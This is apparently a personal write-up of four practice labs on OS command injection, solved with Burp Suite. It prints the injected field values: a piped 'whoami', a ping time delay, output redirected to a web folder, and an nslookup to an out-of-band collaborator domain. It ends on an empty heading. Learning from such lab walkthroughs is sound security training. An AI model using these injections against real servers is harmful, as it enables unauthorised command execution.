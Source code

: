 # OS command injection, simple case
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe1257e-aa10-4808-9456-07dc312be969)

Navigate to the website, 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6801b2fd-9ba6-4dfd-9da5-9504da42bb14)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/65bc6550-551a-4063-bdcf-116f9d6b0220)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6e53c61-e24c-4e25-a8e5-641059dcc47d)

So the vulnerability lies in the storeId function.

Checking payload all things I saw something on chaining commands, we can execute the ```whoami``` command by chaining it. So, we'll have something like this
```
storeId=1|whoami
```
Trying this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7eef72bb-d17b-4a48-880e-5c44fc12368e)

So we got the name of the current user.

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c8d3284-eab1-48c8-8515-1ea3bd6c0280)

We have successfully completed the task

------------------------

# Blind OS command injection with time delays
<hr> 

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2703689-8242-4165-a963-3c3a10f784c7)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc8c94cc-1e7d-4212-9528-be5e103cf7b0)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fe35f794-dfde-41c4-8382-c396458e1120)

Lets capture this request and send it over to burp intruder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e432dc1d-c393-4f04-a888-cb3f9490f4f5)

We were told the vulnerability is in the feedback function. We'll be injecting the email section. we can use this payload to cause a 10 second delay
```
||ping -c 10 127.0.0.1||
```
Applying that payload and ensuring it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/baa7354a-3ff3-4511-89fb-5dd0fa884613)

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7c60d089-0eff-426b-a40b-373969423ad6)

We have successfully completed the task for this lab.

-------------------------------------

# Blind OS command injection with output redirection
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b10aa245-fd9c-4860-875b-9b551fe50fb6)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/50dd66e9-7259-4b7e-88a1-8e392a22f1d7)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/29482e08-8050-48bd-933d-8d863f08c3cc)

Capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ccbd0a4a-dbd4-4672-8001-7d891bcf0bbc)

Now, we were given the writable folder to be ```/var/www/images``` and we are to execute the ```whoami``` command and then retrieve the output. So to write to that folder we can use the payload
```
||whoami > /var/www/images/abeg.txt||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52142d1b-dea3-4b0f-9398-4919c6d0dad5)

Lets try to view an image, we'll be capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e20f52c-9ab0-4e84-8811-2d9ad311d08a)

Now the file we wrote the ```whoami``` command to earlier was ```abeg.txt```, so we'll be changing the name of the image to ```abeg.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e4559180-7927-4715-bf87-c6424faf6935)

Cool, the command got executed successfully. 

Checking our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/257f6306-c586-4e38-99e6-bf8d76839e97)

We have successfully solved this lab.

-------------------------

# Blind OS command injection with out-of-band interaction
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae96badf-72cb-400b-b270-8c704e0373f5)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ac7e3195-6efd-460d-b369-40e0886ed896)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/90e46c2b-b787-4cb6-a677-12b5553a9096)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64fd3693-d050-4455-bd98-7053b2bba741)

so, to solve this lab we have to issue a DNS lookup to burp collaborator

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4fab75bf-9313-402e-b06c-527560ceff3e)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us
```
||nslookup 2ad7n17mkusj9u18hveevnj8zz5pte.oastify.com||
```
Ensure it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/10a8d6f5-7a53-4978-bb60-7cc1a6b4e298)

Checking the burp collaborator client window

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b30d0fcf-e2f0-48af-ab0d-fde372a9626e)

We have successfully sent a DNS query

Checking the webpage again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/714cb00f-8d68-4769-b89f-3c86d4376771)

We have successfully solved the task

------------------------------------

#
<hr>

## Task













